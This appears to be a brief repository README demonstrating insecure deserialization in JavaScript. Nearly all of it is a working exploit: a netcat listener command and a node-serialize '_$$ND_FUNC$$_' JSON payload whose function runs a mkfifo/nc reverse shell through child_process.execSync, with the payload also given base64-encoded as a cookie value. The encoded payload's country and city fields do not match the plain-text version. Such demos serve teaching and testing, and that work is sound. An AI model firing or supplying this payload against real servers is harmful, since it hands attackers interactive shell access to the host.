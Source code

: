 # insecure_deserialization
Sample code of insecure deserialization using JavaScript

$ nc -nvl 4444

{"username":"bill","country":"us","city":"austin"}
eyJ1c2VybmFtZSI6ImJpbGwiLCJjb3VudHJ5IjoidXMiLCJjaXR5IjoiYXVzdGluIn0=

{"username":"_$$ND_FUNC$$_function (){ require('child_process').execSync(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f\", function puts(error, stdout, stderr) {});}()","country":"us","city":"austin"}
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXsgcmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKFwicm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTI3LjAuMC4xIDQ0NDQgPi90bXAvZlwiLCBmdW5jdGlvbiBwdXRzKGVycm9yLCBzdGRvdXQsIHN0ZGVycikge30pO30oKSIsImNvdW50cnkiOiJpbmRpYSIsImNpdHkiOiJkZWxoaSJ9
